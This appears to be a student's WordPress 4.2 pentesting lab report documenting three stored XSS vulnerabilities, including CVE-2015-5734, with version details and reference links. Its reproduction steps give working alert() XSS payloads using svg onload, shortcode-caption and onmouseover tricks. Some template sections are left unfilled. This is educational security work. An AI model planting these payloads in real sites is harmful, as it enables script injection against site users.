 # Project 7 - WordPress Pentesting

Time spent: **5** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS (Authenticated Cross-Site Scripting)
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.6
  - [x] GIF Walkthrough: (XSS1.gif)
  - [x] Steps to recreate: Make a post and then enter the following in the reply:
    
    `http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(1)>`
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/master/wp-admin/customize.php)
2. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:Cross-Site Scripting (XSS)
    - Tested in version:4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: Make a post and in the body of the post enter the following:
  
  <a href="[caption code=">]</a><a title=" onmouseover=alert('Exploit2!') ">here</a>
  - [x] Affected source code:
   - [WPScan Vulnerability Database Vulnerability #7945](https://wpvulndb.com/vulnerabilities/7945)
   - [Letter by Jouko Pynnönen Regarding the Discovery of the Vulnerability](https://packetstormsecurity.com/files/131644/)

3. (Required) Vulnerability Name or ID
  - [x] Summary: 
    - Vulnerability types:CVE-2015-5734
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: Make a post and type the following as a reply:
  
  `<a href='/wp-admin/' title="" style="position:absolute;top:0;width:10%;height:100%;display:block;" onmouseover=alert(3)//'>TEST</a>`
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Harsh Patel]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
